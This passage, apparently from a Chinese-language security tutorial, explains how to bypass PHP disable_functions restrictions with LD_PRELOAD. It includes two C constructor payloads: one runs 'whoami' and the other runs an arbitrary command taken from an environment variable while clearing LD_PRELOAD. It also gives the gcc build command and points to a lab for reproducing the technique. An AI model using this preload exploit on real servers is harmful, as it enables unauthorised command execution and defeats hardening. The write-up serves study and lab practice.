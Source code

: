 #### [](#322-%E5%88%A9%E7%94%A8-1)3.2.2 利用

简单的 exp：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```c<br>#define _GNU_SOURCE<br>#include <stdlib.h><br>#include <unistd.h><br>#include <sys/types.h><br><br>__attribute__ ((__constructor__)) void preload (void){<br>    unsetenv("LD_PRELOAD");<br>    system("whoami > /tmp/leon");<br>}<br>``` |

但是`unsetenv()`在 Centos 上无效，因为 Centos 自己也hook了 `unsetenv()`，在其内部启动了其他进程，来不及删除 `LD_PRELOAD` 就又被劫持，导致无限循环，可以使用全局变量 `extern char** environ`删除，实际上，`unsetenv()` 就是对 environ 的简单封装实现的环境变量删除功能。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```c<br>#define _GNU_SOURCE<br>#include <stdlib.h><br>#include <stdio.h><br>#include <string.h><br><br>extern char** environ;<br>__attribute__ ((__constructor__)) void preload (void)<br>{<br>    // get command line options and arg<br>    const char* cmdline = getenv("EVIL_CMDLINE");<br>    // unset environment variable LD_PRELOAD.<br>    // unsetenv("LD_PRELOAD") no effect on some <br>    // distribution (e.g., centos), I need crafty trick.<br>    int i;<br>    for (i = 0; environ[i]; ++i) {<br>            if (strstr(environ[i], "LD_PRELOAD")) {<br>                    environ[i][0] = '\0';<br>            }<br>    }<br>    // executive command<br>    system(cmdline);<br>}<br>``` |

使用 for 循环修改 `LD_PRELOAD` 的首个字符改成 `\0`，`\0` 是 C 语言字符串结束标记，这样可以让系统原有的 `LD_PRELOAD` 环境变量自动失效。

编译：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>gcc -c -fPIC exp.c -o hack && gcc --share hack -o exp.so<br>``` |

详情可见：[bypass\_disablefunc\_via\_LD\_PRELOAD](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)。

在 [AntSword-Labs](https://github.com/AntSwordProject/AntSword-Labs) 有相关环境，复现该漏洞。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108312125514.png-water_print](assets/1699410109-edf30ee2ff7e3573ea2577997c179a32.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108312125514.png-water_print")
